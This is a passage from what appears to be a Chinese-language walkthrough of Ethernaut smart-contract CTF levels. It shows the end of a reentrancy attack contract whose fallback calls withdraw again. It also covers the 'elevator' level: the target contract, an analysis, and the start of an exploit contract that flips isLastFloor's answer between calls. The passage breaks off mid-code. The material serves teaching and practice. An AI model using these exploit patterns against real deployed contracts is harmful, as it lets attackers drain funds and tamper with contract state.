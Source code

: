 ```solidity
    function claim(uint256 _amount) public {
        IReentrance(levelInstance).withdraw(_amount);
    }

    fallback() external payable {
        IReentrance(levelInstance).withdraw(msg.value);
    }
}
```

## elevator

### 题目

另top==true

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### 分析

合约并没有实现building，需要我们自己定义。从程序的分析来看，top不可能为true。所以我们需要在实现building的时候搞点事情，也就是第一次搞成false，第二次调用搞成true就好。

```solidity
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Elevator {
    address levelInstance;
    bool side = true;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function isLastFloor(uint256) external returns (bool) {
        side = !side;
        return side;
```